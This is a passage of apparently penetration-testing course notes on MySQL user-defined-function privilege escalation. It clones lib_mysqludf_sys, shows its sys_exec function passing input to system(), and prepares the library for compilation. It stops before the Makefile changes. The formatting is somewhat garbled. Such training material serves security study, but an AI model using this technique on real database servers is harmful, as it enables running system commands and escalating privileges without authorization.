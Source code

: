    -   The references in the exploit state that raptor_udf.c was used. 
   
   -   A quick Google search reveals a relevant  
	
- Exploit Database entry 733 and a note at the bottom of the comments mentions a GitHub project734 that looks very promising.

```bash
kali@kali:~$ git clone https://github.com/mysqludf/lib_mysqludf_sys.git
Cloning into 'lib_mysqludf_sys'...
...
kali@kali:~$ cd lib_mysqludf_sys/
kali@kali:~/lib_mysqludf_sys$ 
```

- Opening up the l**ib_mysqludf_sys.c** file shows us a fairly standard **UDF library that allows for execution of system commands through the C/C++ system function.**

```bash
...
my_ulonglong sys_exec(
 UDF_INIT *initid
, UDF_ARGS *args
, char *is_null
, char *error
){
 return system(args->args[0]);
}
...
```

-    Moreover, according to the code, the function exported by the shared library after compilation is named sys\_exec as in the previous exploit.
   
-    We’ll need to create a MySQL function with the same name in order to execute system commands from the database

-    Now that we have reviewed the code, we will compile the shared library.

-    Looking at the** install.sh** file, as a prerequisite for compilation we need to install **libmysqlclient15-dev**. 

-    In Kali Linux, this is the **default-libmysqlclient-dev package**, **which can be installed with apt**

```bash
kali@kali:~/lib_mysqludf_sys$ sudo apt update && sudo apt install default-libmysqlclie
nt-dev
```

- we have the dependencies installed, we need to remove the old object  file before generating the new one.

```bash
kali@kali:~/lib_mysqludf_sys$ rm lib_mysqludf_sys.so 
```

-    Looking at the Makefile, we will need to make some minor adjustments to ensure we can compile the source file correctly.
